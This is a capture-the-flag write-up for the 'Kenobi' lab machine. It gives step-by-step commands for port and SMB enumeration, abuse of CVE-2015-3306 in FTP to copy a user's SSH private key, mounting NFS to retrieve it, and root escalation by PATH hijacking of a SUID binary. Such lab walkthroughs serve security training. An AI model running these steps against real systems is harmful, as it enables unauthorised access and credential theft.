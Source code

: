 ```yaml
---
cover: ../../.gitbook/assets/e20.png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kenobi

### Active information gathering

```bash
kali@attack> echo '10.10.198.245 kenobi.thm' | sudo tee -a /etc/hosts
kali@attack> nmap -p- -T4 -oN nmap-all-ports kenobi.thm
kali@attack> ports="$(cat nmap-all-ports|grep ^[0-9]|cut -d'/' -f1|tr '\n' ','|sed 's/,$//')"
kali@attack> map -sV -p $ports -oN nmap-services kenobi.thm
kali@attack> nmap -p 445 --script smb-enum-shares -oN nmap-smb-enum-shares kenobi.thm
kali@attack> nmap -p 445 --script smb-enum-users -oN nmap-smb-enum-users kenobi.thm
```

<figure><img src="../../.gitbook/assets/e21.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/e22.png" alt=""><figcaption></figcaption></figure>

#### SMB

The SMB service has 3 shares : `IPC$` `anonymous` `print$`. We can also see the path to the share is `c:\home\kenobi\share` thus it exists a user named **kenobi**.

```bash
kali@attack> smbclient //kenobi.thm/anonymous
# first method
smb> get log.txt
smb> exit
# second method
kali@attack> smbget -Rn smb://kenobi.thm/anonymous
```

### Exploitation

#### FTP

The FTP service is vulnerable to the `CVE-2015-3306` and allows to copy file with an unauthenticated user by using Netcat. I copy the `id_rsa` file into `/var/tmp` folder because I know the mounting file system points to `/var`.

```bash
kali@attack> nc kenobi.thm 21

> site help
> site cpfr /home/kenobi/.ssh/id_rsa
> site cpto /var/tmp/id_rsa
```

<figure><img src="../../.gitbook/assets/e24.png" alt=""><figcaption></figcaption></figure>

#### NFS

```bash
kali@attack> nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount kenobi.thm -oN nmap-nfs
```

<figure><img src="../../.gitbook/assets/e23.png" alt=""><figcaption></figcaption></figure>

It's possible to mount this file system from remote into local.

```bash
kali@attack> mkdir /mnt/kenobi
kali@attack> sudo mount kenobi.thm:/var /mnt/kenobi
kali@attack> cp /mnt/kenobi/tmp/id_rsa .
kali@attack> chmod 400 id_rsa
kali@attack> ssh kenobi@kenobi.thm -i id_rsa

kenobi@target> cat /home/kenobi/user.txt
```

And you gain a reverse shell thanks to rsa private key ! :smile:

### Post-exploitation

Now find all files with a SUID.

```bash
kenobi@target> find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/e25.png" alt=""><figcaption></figcaption></figure>

The file `/usr/bin/menu` can be executed as root. Let's have a look of its content with `strings`.

```bash
kenobi@target> strings /usr/bin/menu
```

<figure><img src="../../.gitbook/assets/e26.png" alt=""><figcaption></figcaption></figure>

We can see the file uses bash commands with no absolute path.

```bash
kenobi@target> cd /tmp
kenobi@target> echo '/bin/bash' > curl
kenobi@target> chmod 777 curl
kenobi@target> export PATH=/tmp:$PATH
kenobi@target> /usr/bin/menu
# select option
root@target> cat /root/root.txt
```

And you gain root shell ! :gift:
